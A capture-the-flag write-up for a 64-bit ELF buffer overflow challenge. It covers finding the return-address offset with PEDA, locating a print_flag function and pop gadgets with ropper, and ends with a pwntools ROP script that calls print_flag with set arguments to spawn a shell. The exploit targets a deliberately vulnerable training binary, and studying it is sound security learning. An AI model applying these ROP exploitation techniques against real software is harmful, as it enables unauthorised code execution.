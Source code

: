 ![alt text](bof3.png)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 64bit mode.
- when reading the source code, the binary reads 0x100 bytes and the size of our buffer is 60, so we have a buffer overflow vulnerability.
- we have a print_flag function that calls system("/bin/bash") only if the first argument = 0xdeadbeef and the second argument = 0xc0febabe, so we have to use gadgets to
fill the arguments with the required values.
# Exploitation
- find the size of the buffer to overwrite the saved instruction pointer RIP
- find the address of print_flag function
- find gadget addresses : pop rdi and pop rsi
- chain our payload
## Overwriting the saved return pointer address
to overwrite the saved rip, we can use PEDA to create a pattern then find the offset.
- set a breakpoint at ret instruction in main
- pattern create 200
- examine the rsp x $rsp
- pattern offset "IAAe"
we can see that the offset to the saved rip is : 72
## Address of print_flag
inside gdb : 
- p print_flag
the function is at : 0x40121f 
## Gadgets
using ropper, we can find the wanted gadgets : 
- ropper --file task7 --search "pop rdi" #0x0000000000401323
- ropper --file task7 --search "pop ret" #0x0000000000401321
## Payload
```python
from pwn import *                                                                                                                                                                                                                               p = process("./task7")                                                                                                  
poprdi = 0x401323                                                                                                       
poprsi = 0x401321                                                                                                       
print_flag = 0x40121f                                                                                                                                                                                                                           payload = b""                                                                                                           
payload += b"A"*72                                                                                                      
payload += p64(poprdi)                                                                                                  
payload += p64(0xdeadbeef)                                                                                              
payload += p64(poprsi)                                                                                                  
payload += p64(0xc0febabe)                                                                                              
payload += p64(0)                                                                                                       
payload += p64(print_flag)                                                                                             
p.sendline(payload)                                                                                                     
p.interactive()```
